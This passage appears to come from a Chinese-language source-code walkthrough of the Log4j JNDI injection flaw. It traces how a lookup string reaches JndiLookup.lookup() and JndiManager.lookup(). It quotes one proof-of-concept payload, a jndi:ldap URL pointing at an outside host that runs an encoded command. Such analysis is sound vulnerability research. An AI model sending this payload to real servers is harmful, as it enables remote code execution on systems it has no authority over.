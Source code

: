 例如对 poc 例子中的 jndi:ldap://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==解析后得到 jndi 的 Lookup 功能实现类为 JndiLookup，并调用 JndiLookup.lookup()方法。
![image-20230714094607300](img/image-20230714094607300.png)

- **JndiLookup.lookup**

`JndiLookup.lookup()`方法调用`JndiManager.lookup()`方法

![image-20230714095658156](img/image-20230714095658156.png)

获取 JNDI 对象后，调用该对象上的`toString()`方法，最终返回该字符串。
